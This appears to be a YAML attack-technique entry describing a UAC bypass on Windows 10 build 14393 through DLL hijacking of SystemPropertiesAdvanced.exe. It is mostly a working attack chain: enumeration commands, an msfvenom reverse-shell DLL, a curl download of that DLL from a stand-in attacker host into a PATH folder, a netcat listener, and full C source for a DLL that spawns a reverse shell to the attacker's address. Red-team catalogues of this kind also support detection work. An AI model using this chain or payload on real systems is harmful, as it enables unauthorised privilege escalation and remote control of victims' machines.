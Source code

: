 ```yaml
---
description: |
  This technique exploits a DLL hijacking vulnerability in the auto-elevating 32-bit SystemPropertiesAdvanced.exe binary on Windows 10 build 14393. By placing a malicious DLL into a writable folder in the user’s PATH, the attacker can bypass UAC and obtain an elevated shell without triggering a consent prompt.

  Command Reference:
      Target: Windows 10 build 14393

command: |
  # Check current user and integrity level
  whoami /user

code: |
  # Confirm membership in the Administrators group
  net localgroup administrators

  # List user privileges
  whoami /priv

  # Confirm UAC is enabled
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

  # Check UAC prompt behavior for admins
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

  # Determine Windows build version
  powershell -Command "[environment]::OSVersion.Version"

  # Generate malicious reverse-shell DLL on attacker host
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll > srrstr.dll

  # Host the DLL via HTTP server
  sudo python3 -m http.server 8080

  # Download the malicious DLL to a writable PATH folder on target
  curl http://<attacker_ip>:8080/srrstr.dll -O "C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

  # Start netcat listener on attacker host
  nc -lvnp <attacker_port>

  # Execute the DLL with rundll32 to test normal shell
  rundll32 shell32.dll,Control_RunDLL C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll

  # Kill existing rundll32 processes before bypass
  taskkill /F /IM rundll32.exe

  # Launch the 32-bit SystemPropertiesAdvanced.exe to trigger DLL hijack
  C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe

  // C code for malicious srrstr.dll to spawn reverse shell
  #include <windows.h>
  #include <winsock2.h>
  #pragma comment(lib, "ws2_32.lib")

  void payload() {
      WSADATA wsa;
      SOCKET s;
      struct sockaddr_in server;
      WSAStartup(MAKEWORD(2,2), &wsa);
      s = socket(AF_INET , SOCK_STREAM , 0);
      server.sin_addr.s_addr = inet_addr("<attacker_ip>");
      server.sin_family = AF_INET;
      server.sin_port = htons(<attacker_port>);
      connect(s , (struct sockaddr *)&server , sizeof(server));
      STARTUPINFO si = { sizeof(si) };
      PROCESS_INFORMATION pi;
      si.dwFlags = STARTF_USESTDHANDLES;
      si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)s;
      CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
  }

  BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
      if (fdwReason == DLL_PROCESS_ATTACH) {
          payload();
      }
      return TRUE;
  }

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - Privilege Escalation
references:
  - https://attack.mitre.org/techniques/T1548/005/
  - https://github.com/hfiref0x/UACMe#technique-54-systempropertiesadvancedexe-dll-hijacking
  - https://github.com/hfiref0x/UACME
---
```

